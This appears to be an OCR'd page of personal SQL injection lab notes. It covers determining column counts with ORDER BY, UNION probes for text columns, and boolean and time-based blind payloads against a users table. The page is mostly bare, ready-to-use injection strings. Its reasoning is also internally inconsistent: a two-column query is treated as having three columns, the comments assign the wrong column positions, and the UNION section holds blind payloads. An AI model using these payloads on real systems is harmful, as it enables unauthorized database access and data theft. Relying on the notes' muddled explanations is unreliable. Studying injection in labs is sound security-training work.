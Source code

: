 -------------------------------------------------------------
-------------------------------------------------------------

### 3.  SQLi: `UNION` attack determining the `num of columns` returned by the query

[Assessed `SQL Query` in Background]:
select a, b from table1

-- - - - - - - - - - - - - - - - - - - - - - - - - - --

[Final Payload]:
' ORDER BY 3--

Probable Back-end Query:
`select a, b from table1 order by 3--`

-------------------------------------------------------------
-------------------------------------------------------------

### 4.  SQLi: `UNION` attack, finding a `column` containing `text`
+ I know there are **3 columns** for step 3 example

[Assessed `SQL Query` in Background]:
select a, b from table1

-- - - - - - - - - - - - - - - - - - - - - - - - - - --

```Probing_Payloads
' UNION select NULL, NULL, NULL--
' UNION select 'a', NULL, NULL--   <--- this doesn't error out
                                        so 3rd column is a string
' UNION select NULL, 'a', NULL--   <--- this doesn't error out
                                        so 2nd column is a string
' UNION select NULL, NULL,'a'--
```
[Final Payload]:
' UNION select NULL, 'kSzxY4', NULL--

Probable Back-end Query:
`select a, b from table1 UNION select NULL, 'kSzxY4', NULL`

-------------------------------------------------------------
-------------------------------------------------------------

### 5.  SQLi: `UNION` attack, retrieving `data` from other `tables`
+ I know there are **3 columns** for step 3 example
+ I know that **column 1 & 2** are `strings` from step 4 example

[Assessed `SQL Query` in Background]:
select a, b from table1

-- - - - - - - - - - - - - - - - - - - - - - - - - - --


[Final Payload]: ' and (select 'x' from users LIMIT 1)='x'--
[Final Payload]: ' and (select username from users where username='administrator')='administrator'--
[This one worked]: ' || (SELECT sleep(10))--